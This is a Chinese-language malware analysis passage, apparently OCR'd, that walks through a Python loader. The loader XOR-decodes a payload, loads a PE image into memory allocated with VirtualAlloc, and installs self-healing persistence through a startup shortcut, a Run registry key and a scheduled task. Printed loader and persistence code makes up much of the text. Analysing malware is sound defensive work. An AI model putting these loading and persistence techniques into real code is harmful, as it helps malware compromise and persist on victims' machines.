 在对脚本进行解码和去模糊化之后，我们剩下的 python 脚本与 Malwarebytes 经历的非常相似。因此，我们将简单地强调一些额外的混淆。

“start.pyc”负责加载、异或解码和执行“start.bin ”,这意味着“start.bin”也将是 python 代码。

```
>>> a = open('start.bin', 'rb').read()
>>> key = [119, 202, 9, 62, 242, 222, 133, 29, 119, 84, 152, 171, 160, 91, 146, 153, 126, 48]
>>> a = bytearray(a)
>>> for i in range(len(a)):
...   a[i] ^= key[i%len(key)]
...
>>> a
bytearray(b'import zlib\r\nimport b
```

解码后的“start.bin”代码与 Hasherzade 在他们的 Malwarebytes 文章中详细描述的非常相似，该脚本负责在解码之前加载“filter.bin”文件:

```
HF = open('filter.bin', 'rb')
C.GetVersion()
Hx = HF.read()
X.UnhookWindowsHookEx(414986859)
HF.close()
X.GetSubMenu(3554727512,876685492)
HU = len(Hx)
C.GetCommandLineA()
X.RegisterHotKey(2993556035,767033726,1828451905,4004424231)
HN = C.VirtualAlloc(0, 1748992, 4096, 64)
```

解码将利用存储在 base64 blob 底部的 list 列表，然后加载期望 PE 文件的文件:

```
if (d(hy) != 23117):
    z('Not an MZ image!')
cH = t((hy + s.cx.offset))
cc = (hy + cH)
if (t(cc) != 17744):
    z('Not an PE image!')
```

该脚本还负责安装持久性:

```
def mainfn():
    from time import time
    from math import ceil
    from sys import argv
    from random import shufflecheckers=[chkStartUpLnk, chkRegRun, chkTask]
    deleters=[delStartUpLnk, delRegRun, delTask]
    healers=[setStartUpLnk, setRegRun, setTask]if getattr(opts, "ACTION")=="default":
        tm=0.0
        if os.path.isfile('time.txt'):
            f=open('time.txt')
            tm=parseTime(f.read())
            f.close()f=open('time.txt', 'w')
        f.write(str(time()))
        f.close()if time()-tm<63.0:
            returnsubprocess.Popen(launchCmd, creationflags=0x00000208)toHeal=[]for i in range(0, len(checkers)):
            if not checkers[i]():
                toHeal.append(healers[i])shuffle(toHeal)
        nWorked = len(checkers)-len(toHeal)
        minWorked=ceil(len(checkers)*0.5)
        nHeal=max(minWorked-nWorked, 0)for j in range(0, nHeal):
            toHeal[j]()
        returnif getattr(opts, "ACTION")=="inst":
        for h in healers:
            h()
```